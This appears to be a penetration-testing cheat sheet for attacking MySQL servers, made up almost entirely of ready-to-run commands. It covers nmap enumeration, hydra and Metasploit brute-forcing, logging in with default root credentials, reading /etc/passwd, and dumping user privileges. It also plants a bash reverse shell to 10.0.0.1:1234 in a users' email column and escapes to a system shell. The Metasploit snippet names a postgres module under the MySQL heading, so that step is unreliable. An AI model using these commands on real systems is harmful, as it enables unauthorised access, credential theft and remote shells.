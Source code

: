 # Commands
### Enumeration
```bash
nmap --script mysql-info -p 3306 <target-ip>
nmap --script mysql-enum -p 3306 <target-ip>
nmap --script mysql-brute -p 3306 <target-ip>
nmap --script mysql-databases -p 3306 <target-ip>
nmap --script mysql-users -p 3306 <target-ip>
nmap --script mysql-* -p 3306 <target-ip>
```
### Brute Force Credentials
```bash
hydra -l username -P passwords.txt <target-ip> mysql
hydra -L usernames.txt -p password <target-ip> mysql

# Metasploit
msfconsole
msf> use auxiliary/scanner/postgres/postgres_login
msf> set rhosts <target-ip>
msf> run
```

## Config File
```bash
cat /etc/mysql/my.cnf
cat /etc/mysql/mysql.conf.d/mysqld.cnf
```

### Connect

#### Local
```bash
# No password
mysql -u username

# With Password
mysql -u username -p

# Specity database name
mysql -u username -p database_name

# Execute commands
mysql -u username -p database_name -e "show databases;"
echo '<password>' | mysql -u username -p database_name -e "show databases;"

# Execute commands via a file
echo 'show tables;' > example.sql
mysql -u username --password='password' database_name -v < example.sql

# Read arbitrary files
mysql -u username --password='password' database_name -v < /etc/passwd

```

#### Remote
```bash
mysql -u username -p -h <target-ip> -P 3306

# Without password (remove -p)
mysql -u username -h <target-ip> -P 3306

# Specify database (-D)
mysql -u username -p -h <target-ip> -D database_name

# Default credential (username: root, no password)
mysql -u root -h <target-ip> -P 3306
```
### Execute from File
After connecting MySQL, you can execute SQL commands from a .sql file.
Note that we need to change the current directory to the directory in which the .sql file is located.

```bash
mysql> source example.sql
```

### Basic Commands

```bash
# List mysql users
mysql> select user from mysql.user;
# List privileges of each user
mysql> select user,select_priv,insert_priv,update_priv,delete_priv,create_priv from mysql.user;

# Display databases
mysql> show databases;

# Switch to the database
mysql> use db_name;

# Display tables in the current database
mysql> show tables;
# Display tables and table type
mysql> show full tables;
# Display tables in the database
mysql> show tables from <database>;
# Display tables which names start with 'user'
mysql> show tables like 'user%';
# Display tables which names start with 'user' in the database
mysql> show tables from <database> like 'user%';
```

### Command Injection
We can inject the OS command to column values e.g. email address.
Depending on the situation, we may be able to execute arbitrary command.
```bash
# Update existing user email to execute reverse shell
mysql> update exampledb.users SET email='admin@shell|| bash -c "bash -i >& /dev/tcp/10.0.0.1/1234 0>&1" &' where name like 'admin%';
```

### System Commands
We can run the system command in MySQL shell as below. Depending on the situation, we may be able to escalate privileges.
```bash
mysql> system whoami
mysql> system bash
```
